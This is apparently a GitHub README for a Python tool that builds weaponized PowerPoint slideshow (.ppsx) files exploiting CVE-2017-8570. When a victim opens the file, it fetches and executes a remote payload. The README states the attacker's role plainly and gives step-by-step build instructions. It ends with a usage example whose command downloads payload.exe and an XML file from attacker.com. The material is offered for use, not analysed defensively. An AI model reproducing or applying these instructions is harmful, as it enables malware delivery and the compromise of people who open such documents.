 # Introduction
By Temesgen Yibeltal temu1yibeltal@gmail.com (Based on code by https://github.com/bhdresh/CVE-2017-8570 (now removed))

ppsx-file-generator is a python tool that generates a power point slide show file that executes code from a remote source based on an existing file.

# What does it do?

The tool generates a power point slide show file and an xml file based using the input provided. The power point file accesses the xml file which holds information of the payload file. An attacker could serve the xml file and the payload on a local or public server and provide the url for each as input.

# Getting the code

First, get the code:
```
git clone https://github.com/temesgeny/.ppsx-file-generator.git
```

ppsx-file-generator is written in Python and requires zipfile which can be installed using Pip:
```
pip install zipfile
```
Requires Microsoft Office Power Point to  carry out this task.

# Usage
First open Microsoft Office Power Point and open 'template.ppsx'. Open your own presentation file and copy the icon 'Coder.exe' from template.ppsx to slide 1 of your power point file. Save the file as Power Point Show (.ppsx). Then use the python tool as

        Usage: generate_ppsx.py input_filename -o output_filename -p payload_uri -x xml_uri

        input_filename          The input ppsx file name.

        -o              Output .ppsx file name, (inlcude the .ppsx).
        -p              The payload exe or sct file url. 
                        It must be in an accessible web server. (Optional for xml file)
        -x              The full xml uri to be called by the ppsx file. 
                        It must be in an accessible web server.(Required)

```
python generate_ppsx.py -o output.ppsx -p http://attacker.com/payload.exe -x http://attacker.com/content.xml input.ppsx
Generated content.xml successfully
Generated output.ppsx successfully
```
